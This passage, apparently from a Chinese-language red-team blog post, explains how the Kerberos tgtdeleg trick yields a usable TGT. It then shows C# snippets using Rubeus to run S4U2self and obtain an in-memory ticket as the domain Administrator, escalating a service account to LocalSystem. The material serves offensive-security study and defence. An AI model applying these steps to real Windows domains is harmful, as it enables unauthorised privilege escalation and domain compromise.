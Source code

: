 <img src="/assets/posts/2023-08-02-escalate-service-account-to-localSystem-via-kerberos/image-20230728091637233.png" alt="image-20230728091637233" style="zoom:67%;" />

Tgtdeleg 通过滥用 Kerberos GSS-API，以获取当前用户的可用 TGT，而无需在主机上获取提升的权限。该方法使用 `AcquireCredentialsHandle` 函数获取当前用户的 Kerberos 安全凭据句柄，并使用 `ISC_REQ_DELEGATE` 标志和目标 SPN 为 `HOST/DC.domain.com` 调用 `InitializeSecurityContext` 函数，以准备发送给域控制器的伪委派上下文。这导致 GSS-API 输出中的 KRB_AP-REQ 包含了在 Authenticator Checksum 中的 KRB_CRED。然后，从本地 Kerberos 缓存中提取服务票据的会话密钥，并用它来解密 Authenticator 中的 KRB_CRED，从而获得一个可用的 TGT。Rubeus 工具集种也融合了该技巧，具体细节请参考 “[*Rubeus – Now With More Kekeo*](https://blog.harmj0y.net/redteaming/rubeus-now-with-more-kekeo/#tgtdeleg)”。

我们可以在服务账户的上下文中，利用 Rubeus 提供的 `LSA.RequestFakeDelegTicket()` 方法执行 tgtdeleg 技巧，以检索计算机账户的 TGT 并保存在 `blah` 字节数组中，如下所示。

```c#
// ...

Console.WriteLine("[*] Action: Request Fake Delegation TGT (current user)");
byte[] blah = LSA.RequestFakeDelegTicket();

// ...
```

将返回的 TGT 字节数据转换为 KRB_CRED 对象，并传入 Rubeus 提供的 `S4U.Execute` 方法执行 S4U2self 过程，以代表域管理员用户请求针对当前计算机上 HOST 服务的票据，并将请求到的服务票据将被提交到内存中。

```c#
string targetUser = $"{domain}\\Administrator";
string targetSPN = "";
string altService = $"HOST/{Environment.MachineName}";
string outfile = "";
bool ptt = true;
bool self = true;
string keyString = "";

// ...

KRB_CRED kirbi = new KRB_CRED(blah);

S4U.Execute(kirbi, targetUser, targetSPN, outfile, ptt, domainController, altService, null, null, null, self, false, false, keyString, encType);
```
